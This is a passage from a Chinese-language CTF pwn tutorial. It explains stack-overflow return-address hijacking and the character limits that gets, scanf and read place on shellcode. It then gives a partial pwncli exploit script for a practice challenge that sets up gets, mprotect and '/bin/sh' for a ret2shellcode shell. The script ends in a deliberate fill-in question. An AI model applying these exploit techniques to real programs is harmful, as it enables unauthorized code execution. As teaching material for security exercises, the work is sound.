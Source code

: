     首先，最简单的方式当然是题目里面直接将字符串强制转换为函数指针并调用。一般这种情况多见于入门题，或者题目的考点本身不在这里（比如在shellcode上做文章）。
    
    其他情况下，我们需要用各种方式来劫持控制流，这本身是pwn里比较核心的一部分，这里介绍一种最简单的：栈溢出。
    
    我们知道，如果程序通过函数调用main或者其他函数执行，将会通过call指令进入函数，最后通过ret指令退出。call指令在栈上保存函数结束以后的返回地址，ret时读取这个地址并从那里开始执行。如果在函数中，我们可以在栈上写入一串长度超出限制的字符串，并且精确覆盖call指令存入的返回地址，将之修改成我们希望返回的地址，就可以实现控制流的劫持，这就是一种最简单的栈溢出。
    
- shellcode的内容是否有限制？
    
    这是shellcode题目的另一种考点。
    
    非常实际的问题：如果我们通过`gets(buf)`来输入，那么shellcode中就不能出现`'\n'`即`0x0a`，如果是`scanf("%s",buf)`则不能包含各种诸如空格、换行、`'\t'`等分隔符。如果是通过`read(1,buf,len)`，那么输入的shellcode长度不能超过len字节。
    
    更有甚者，出题者会自建函数来审核输入的字符串，比如必须要是ascii可打印字符、必须是字母数字、必须全是偶数字节等等各种奇怪的要求，这也是这类专门关注shellcode本身构造的pwn题的难度所在。
    
    幸好，各种常见的限制条件在网上都有了生成脚本，也有较为专门的套路去构造。
## 1.2.5 实践操作

### 例题 chp1-0-hellopwner-flag2

还记得我们在章节 1.0 中看到的例题 chp1-0-hellopwner 吗，我们使用了 ret2text 的方法拿到了 flag1，但是还没有成功实现 getshell，接下来考虑采用 ret2shellcode 的方法来拿到 shell：

```python
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
#  set_remote_libc('libc.so.6')
context.arch = "amd64"

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

def cmd(data):
    ru(b'cmd> ')
    sl(data)
def call_func(data, idx=0, key=b""):
    cmd(data)
    ru(b'offset: ')
    sl(i2b(idx))
    if data[:1] == b"1":
        ru(b'data: ')
        sl(key)

buf_addr = 0x4c5000 + 8
gets_addr = elf.symbols['gets']
mprotect_addr = elf.symbols['mprotect']
bytes_binsh = u64_ex(b"/bin/sh\x00")
call_func(怎么溢出才能调用到自定义的几个函数？提示如下：)
# -1 => shellcode
#  0 => gets
#  1 => mprotect
```